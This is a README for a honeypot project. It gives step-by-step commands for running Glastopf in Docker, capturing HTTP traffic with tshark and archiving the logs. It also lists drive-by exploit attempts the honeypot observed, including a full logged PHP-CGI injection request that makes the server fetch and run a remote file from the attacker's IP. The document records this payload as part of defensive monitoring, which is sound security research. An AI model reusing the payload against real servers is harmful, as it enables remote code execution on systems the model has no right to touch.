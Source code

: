 # Analyze Traffic from port 80 while a Glastopf honeypot is set up

## Getting the Data: 
0. Install docker: ``sudo apt-get install docker docker.io``
1. clone the glastopf honeypot git repository: ``git clone https://github.com/mushorg/glastopf && cd glastopf`` [glastopf](https://github.com/mushorg/glastopf.git)
2. Build Glastopf's Docker image: ``sudo docker build --tag glastopf .``
3. Make a new directory for the glastopf logs: ``mkdir myhoneypot1``
4. Run the docker image: ``sudo docker run --detach --publish 80:80 --volume myhoneypot1:/opt/myhoneypot glastopf``
5. Create a log file for tshark for the root user: ``sudo touch http_log.pcap``
6. Start Tshark logging in the background: ``sudo tshark -w http_log.pcap "port 80 or port 8080 or port 443" &``
7. After capturing for 24 hours, stop capturing: ``sudo docker stop <container id>; sudo pkill tshark``
8. Read the pcap: ``tshark -r ~/http_log.pcap``
9. Read glastopf's logs: ``less ~/glastopf/myhoneypot1/logs/glastopf.log``
10. Copy all logs into the same place: ``mkdir http_glastopf_logs && cp http_log.pcap http_glastopf_logs; cp -r ~/glastopf/myhoneypot1/logs/ http_glastopf_logs/``
11. Compress this directory into a tarball: ``tar -vacf http_glastopf_logs.tar.gz http_glastopf_logs/``
12. Exit out of server
13. Copy the tarball from server to a local machine and add it to the github repository. ``scp -P <port> <usr name>@<ip addr of server>:~/http_glastopf_logs.tar.gz /home/$(whoami)/``

## Analysis:
The steps detailed above occurred between March 6, 2017 at 18:45PST and March 7, 2017 at 18:30PST


## Helpful Links
* [glastopf](https://github.com/mushorg/glastopf.git)



## Drive By Exploit attempts:
1. Apache Struts
2. Shellshock
3. 2017-03-26 03:24:29,428 (glastopf.glastopf) 191.96.249.97 requested GET /cgi-bin/php?-d+allow_url_include%3Don+-d+safe_mode%3Doff+-d+suhosin.simulation%3Don+-d+max_execution_time%3D0+-d+disable_functions%3D""+-d+open_basedir%3Dnone+-d+auto_prepend_file%3Dhttp://191.96.249.97/ok.txt+-d+cgi.force_redirect%3D0+-d+cgi.redirect_status_env%3D0+-n on 13dc3d8ebca9:80
  * When Downloaded, the file ok.txt contains the text: ``echo "nigerianwarrior";``
